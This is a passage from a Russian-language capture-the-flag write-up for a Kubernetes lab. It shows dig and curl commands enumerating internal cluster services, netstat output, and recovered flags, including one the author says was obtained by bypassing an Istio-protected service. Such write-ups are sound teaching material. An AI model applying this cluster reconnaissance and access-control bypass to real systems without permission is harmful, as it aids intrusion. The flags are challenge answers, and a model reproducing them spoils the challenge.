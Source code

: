 ```
dig @10.100.0.10 +short getflag-service.k8s-lan-party.svc.cluster.local.
10.100.136.254
```

```
curl 10.100.136.254
wiz_k8s_lan_party{between-thousands-of-ips-you-found-your-northen-star}
```

Это был флаг первого задания.

```
dig @10.100.0.10 +short istio-protected-pod-service.k8s-lan-party.svc.cluster.local.
10.100.224.159
```

```
curl 10.100.224.159
wiz_k8s_lan_party{only-leet-hex0rs-can-play-both-k8s-and-linux}
```

Он впоследствии оказался флагом 4-го задания, но я получил его неправомерным путём, если такой термин есть в CTF.


# 2 Hello?

Нос на изображении задания подсказывает, что нужно `понюхать` трафик. Но я зашёл с другого края. Поскольку разговор о сайдкарах, я думал, что у них может быть общий том.

```
grep -R "wiz_k8s" /
```

Это не дало результата и я решил посмотреть сеть. Нетстат показал активность. Это не были процессы моего контейнера, значит это сайдкар, который рядом.

```
netstat -tulpan
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 192.168.3.89:43126      10.100.171.123:80       TIME_WAIT   -                   
...
```

Я подёргал курлом, куда он обращался, но там ничего интересного:
```
curl -iv 10.100.171.123:80
*   Trying 10.100.171.123:80...
* Connected to 10.100.171.123 (10.100.171.123) port 80 (#0)
> GET / HTTP/1.1
> Host: 10.100.171.123
> User-Agent: curl/7.81.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
HTTP/1.1 200 OK
< server: istio-envoy
server: istio-envoy
< date: Tue, 19 Mar 2024 17:22:35 GMT
date: Tue, 19 Mar 2024 17:22:35 GMT
< content-type: text/plain
content-type: text/plain
< x-envoy-upstream-service-time: 1
x-envoy-upstream-service-time: 1
< x-envoy-decorator-operation: :0/*
```